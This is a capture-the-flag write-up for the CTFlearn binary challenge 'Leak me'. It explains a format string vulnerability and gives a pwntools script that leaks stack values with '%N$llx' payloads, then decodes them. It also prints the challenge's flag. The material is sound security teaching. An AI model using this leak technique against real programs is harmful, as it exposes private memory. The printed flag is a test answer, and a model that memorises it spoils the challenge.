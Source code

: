 # Leak me
> Write-up author: jon-brandy
## DESCRIPTION:
Which format tag is your favourite?

`nc rivit.dev 10003`

[FILE](https://github.com/Bread-Yolk/ctflearnwu/blob/d86503045d9e9e6cdcd3ea2f547b8f04697c0dc9/Assets/Binex/Leak%20me/task.tar.gz)

## HINT:
- NONE
## STEPS:
1. First, download the file given.
2. Next, extract the `tar.gz` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194568494-f3e089d6-6e0e-44fc-9e12-e0e567d1d5a3.png)


3. Check the binary type and it's protections.

> 64 bit , not stripped.

![image](https://user-images.githubusercontent.com/70703371/221806025-00e1cd08-2a34-443f-9d27-84641a04a1bc.png)


> All enabled

![image](https://user-images.githubusercontent.com/70703371/221806105-ae681bfa-d289-40da-bf63-4be4dc1f4b21.png)


4. Let's decompile the binary.

> main()

![image](https://user-images.githubusercontent.com/70703371/221806554-12419114-4233-4f69-94da-089d84480651.png)


5. Analyzing the main() function, noticed there's a format string vulnerability.

![image](https://user-images.githubusercontent.com/70703371/221806708-e24386c6-9011-4763-9aa8-1e5825bb138b.png)


6. Hence we can utilize it to leak any strings or address off the stack memory.
7. To test our assumptions, let's make a file named `flag.txt` so we can run the binary, then let's input %x.
8. And inside the `.txt` file let's insert 8 bytes of A chars.

> RUN THE BINARY

![image](https://user-images.githubusercontent.com/70703371/221808167-69d49bdc-0fbf-4363-880f-349fba706c98.png)


9. Notice there's **41414141**, which stands as AAAA.
10. It means we can leak the flag.
11. To get the flag i made this script:

```py
from pwn import *
import os
#64 bit
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

for i in range(50):
    sh = start()
    print("iter: ", i)
    sh.sendlineafter(b'?', '%{}$llx'.format(i))
    get = sh.recvline()
    string = str(get)
    print(string)

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/221817968-47f92eef-e634-4da3-be1d-f0692c0b3a1e.png)


12. Got many hex values, so i decode every one of them until i got the flag partition.

> RESULT

```
}00t_5g4t_t4mr0f_3k1l_1{nraelFTC
```

13. Reverse the flag and we got it!

```py
import os

os.system('cls')

strings = '}00t_5g4t_t4mr0f_3k1l_1{nraelFTC'[::-1]
print(strings)
```

![image](https://user-images.githubusercontent.com/70703371/221818484-ae457efc-7c45-4a81-998b-0b1fed5364f8.png)



## FLAG

```
CTFlearn{1_l1k3_f0rm4t_t4g5_t00}
```
